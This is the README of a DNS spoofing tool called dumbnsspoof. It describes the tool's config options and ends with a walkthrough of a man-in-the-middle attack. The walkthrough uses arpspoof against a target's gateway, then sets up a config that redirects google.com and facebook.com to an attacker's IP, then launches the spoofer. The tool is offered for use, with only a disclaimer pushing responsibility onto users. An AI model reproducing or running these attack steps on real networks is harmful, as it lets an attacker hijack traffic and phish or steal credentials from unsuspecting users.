 # dumbnsspoof
dns spoofing tool

dumbns is a DNS spoofing tool, the attack wont do MITM by it self, you need to do it by yourself, this script listen for DNS traffic and return a response base on the given config, if no requested domain was ask the script will drop the packet.

## legal
any use of this script on unauthorized networks make the user the responsible and not the developer

## problem with DNSspoofing && dumbnsspoof
most systems will store DNS data in a file called HOSTS file so they wont need to go thorug the DNS process again, so this wont always work first time
on visited site, the script does not support DNS tcp connections<br><br>

if you gonna try to redirect a domain to IP that runs multi domains, most of the time you will get 404 error because you redirecting
a domain that the IP does not support

## problem with node http-server
if you are using (for tests) node `http-server`, the script will send the correct spoofed ip but some times the `http-server` wont complete the 3-way handshake
this is a problem with the `http-server` and not the script, to fix it restart the server and refresh the browser, I recommend alternative for `http-server` 

## config file
when running dumbns it will look for a config file (default name "dumbns.config.json" can be changed with `--config`), the config file is in JSON format

|    name   |  requested value  |                                                                                description                                                                               |
|:---------:|:-----------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|    ttl    |        int        |                                                for how much time the DNS response is valid to be stored in the HOSTS file                                                |
|  dns_mac  |       string      | if added it will optimize the filtering, if added with -e3 it will optimize the filtering and the script will be able to send the real dns-server the ICMP type 3 packet |
|   echo3   |        bool       |                                            send ICMP type3 code 3 to the real dns-server when match found (requires `dns_mac`)                                           |
|  targets  |        list       |                                                                            targets list of IP                                                                            |
|  exclude  |        list       |                                                          exclude target IP, cannot be set when `targets` are set                                                         |
|  domains  | dict (aka js obj) |                                                     the key is the attacker IP, the value is a list or regex domains                                                     |
| interface |       string      |                                                                        the interface to listen on                                                                        |

## MITM with dumbns
for home networks a dns request is send to the gateway and then the gateway will send the request to a real DNS server, or some computers have a static DNS ip <br>
but all the traffice goes through the gateway so we need to do MITM attack to see outgoing DNS packets

for this example I will use `arpspoof` from here => https://github.com/byt3bl33d3r/arpspoof <br>

```sh
foo@foo:~$ sudo arpspoof -r -i eth0 -t <target-ip> <gateway ip>
```
this will make the target think you are the gateway and now we will be able to see the outgoing data of the target

```json
# dumbns.config.json
  {
    "targets": ["<target-ip>"],
    "domains": {
      "<attacker-ip>": [
        "google.com",
        "facebook.com"
      ]
    },
    "interface": "eth0"
  }
```
now that we have the config lets run the attack

```sh
foo@foo:~$ sudo python3 dumbnsspoof.py
```


